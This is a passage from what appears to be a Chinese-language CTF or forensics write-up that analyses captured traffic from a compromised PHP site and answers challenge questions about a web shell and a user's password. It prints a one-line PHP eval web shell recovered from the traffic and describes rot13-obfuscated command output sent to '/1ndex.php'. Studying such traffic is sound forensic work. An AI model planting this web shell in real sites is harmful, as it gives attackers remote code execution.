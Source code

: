 [![](assets/1702520939-7a2683eccff434c09575edb63b1bacb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180945-bd567732-999f-1.png)  
解码后内容是`<?php eval($_POST[1]); ?>`，因此这道题的答案就是**1**。

## mid-4

> 题目内容：用户 hack 的密码是多少？

后面`POST /1ndex.php`，进行代码执行。解码后分析一下上传的代码，主要看输出的地方，可以看到输出缓冲区的内容被rot13编码了，并且头和尾增加了脏数据。  
[![](assets/1702520939-80d2f6c02c3efc3f6ff0f050fd2fda8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180958-c577b05c-999f-1.png)  